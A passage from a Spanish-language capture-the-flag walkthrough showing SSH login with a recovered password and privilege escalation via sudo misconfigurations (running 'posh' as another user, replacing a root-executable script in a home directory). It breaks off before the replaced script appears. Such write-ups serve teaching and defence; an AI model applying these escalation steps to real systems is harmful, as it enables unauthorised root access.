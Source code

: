 Vemos que obtuvimos las credenciales del usuario `joe`, por lo que nos conectaremos por `SSH` de la siguiente forma.

### SSH

```shell
ssh joe@<IP>
```

Metemos como contraseña `chittychittybangbang` y veremos que estamos dentro con dicho usuario.

## Escalate user luciano

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for joe on 16a18efc4706:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joe may run the following commands on 16a18efc4706:
    (luciano) NOPASSWD: /bin/posh
```

Vemos que podemos ejecutar el binario `posh` como el usuario `luciano`, por lo que haremos lo siguiente:

```shell
sudo -u luciano posh
```

Info:

```
luciano@16a18efc4706:/home/joe$ whoami
luciano
```

Con esto seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for luciano on 16a18efc4706:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luciano may run the following commands on 16a18efc4706:
    (root) NOPASSWD: /bin/bash /home/luciano/script.sh
```

Vemos que podemos ejecutar el script `script.sh` como el usuario `root`, pero vemos que esta en nuestra `/home`, por lo que podremos eliminar el script y crear el mismo con el contenido que queramos y ejecutarlo como `root`, haremos lo siguiente:
